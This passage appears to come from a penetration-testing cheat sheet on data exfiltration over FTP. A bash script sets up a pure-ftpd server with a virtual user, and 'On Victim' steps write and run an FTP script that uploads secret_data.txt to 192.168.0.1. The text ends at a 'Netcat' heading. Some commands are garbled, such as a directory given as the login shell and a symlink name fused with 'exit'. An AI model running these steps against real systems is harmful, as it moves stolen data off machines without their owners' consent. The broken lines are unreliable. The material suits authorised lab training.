 ### Create setupftp.sh Execute The Script

```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd myftpuser -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s /etc/pure-ftpd/conf/PureDB /etc/pure-ftpd/auth/40PureDBexit
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

```bash
./setupftp.sh
```

### Get Service Ready

#### Reset Password
```bash
pure-pw passwd offsec -f /etc/pure-ftpd/pureftpd.passwd
```
 #### Commit Changes
 ```bash
pure-pw mkdb
 ```

 #### Restart Service
 ```bash
/etc/init.d/pure-ftpd restart 
 ```

 ### Create FTP Script (On Victim)
 ```bash
echo open 192.168.0.1>> ftp.txt
echo USER myftpuser>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo put secret_data.txt>> ftp.txt
echo bye >> ftp.txt
 ```

### Exectue Script (on Victim)

```bash
ftp -v -n -s:ftp.txt
```

***

## Netcat
